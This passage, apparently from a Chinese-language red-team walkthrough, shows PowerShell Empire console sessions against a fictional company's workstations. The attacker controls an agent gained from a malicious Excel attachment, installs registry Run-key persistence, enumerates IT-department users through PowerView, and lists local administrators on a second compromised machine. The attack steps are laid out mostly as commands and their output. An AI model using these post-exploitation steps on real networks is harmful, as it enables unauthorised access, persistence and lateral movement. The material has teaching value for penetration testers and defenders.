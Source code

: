 ```text
(Empire) > interact D1GAMGTVCUM2FWZC
(Empire: D1GAMGTVCUM2FWZC) > sysinfo
    Listener:    http://<front-gun>:80 
    Internal IP:        10.10.20.54
    Username:    SPH\mike
    Hostname:    FRPC054
    OS:    Microsoft Windows 10 Pro High Integrity:    0
    Process Name:        powershell Process ID:    3404
    PSVersion:    5
(Empire: D1GAMGTVCUM2FWZC) > rename mike 
(Empire: mike) >
```

反弹 shell 的宿主是正在后台运行的 Powershell 进程。这样即便用户关闭了Excel文档，我们仍能维持对该计算机的访问权。当然，用户只要一重启，我们的代理就会被干掉。因此，在继续之前，我们需要采取一些“后门加固”措施。

在每次重新登录时，Windows 都会查找一些注册表项，并直接运行对应的程序。我们将从中选择一个注册表键值来存储一段 PowerShell 脚本，这样 Mike 每次重新启动电脑后都会自动回连。

```text
(Empire:mike)> usemodule persistence/userland/registry
(Empire : persistence/userland/registry) > set Listener test
(Empire : persistence/userland/registry) > run
```

这个特殊的模块使用 RUN 键来实现持久化（HKCU\Software\Microsoft\Windows\CurrentVersion\Run），这种方法已经被无数恶意软件玩烂了。这远不是我们所能想出的最隐秘的方法，但鉴于当前在工作站上的权限不足，暂时还没法使用一些“风骚”的方法。

{% hint style="info" %}
提示：只需更改模块中的目标选项“set target XXXXX”，就可以在其他所有代理上直接执行此模块。
{% endhint %}

现在，我们已经涵盖了这一点，我们希望锁定一些在域内看起来具备管理员权限的用户，或者至少具有对某些服务器的访问权。一个典型的目标就是IT支持部门，我们通过 AD 列出该部门的所有员工：

```text
(Empire: mike) > usemodule situational_awareness/network/powerview/get_user
(Empire: mike) > set filter department=IT* 
(Empire: mike) > run
Job started: Debug32_45g1z
company    : SPH
department    : IT support
displayname    : Holly 
title : intern IT
lastlogon : 12/31/2016 9:05:47 AM 
[...]
company    : SPH
department    : IT support
displayname    : John P 
title : IT manager
lastlogon : 12/31/2016 8:05:47 AM 
[...]
```

通过与运行恶意附件的人员列表进行比对，用户 John 进入了我们的视野\[70\]:

```text
(Empire:) > interact H3PBLVYYS3SYNBMA
(Empire H3PBLVYYS3SYNBMA :) > rename john
(Empire: john) > shell net localgroup administrators
    Alias name    administrators
    Members

    ------------------------------------------------------
    adm_wkt
    Administrator
```
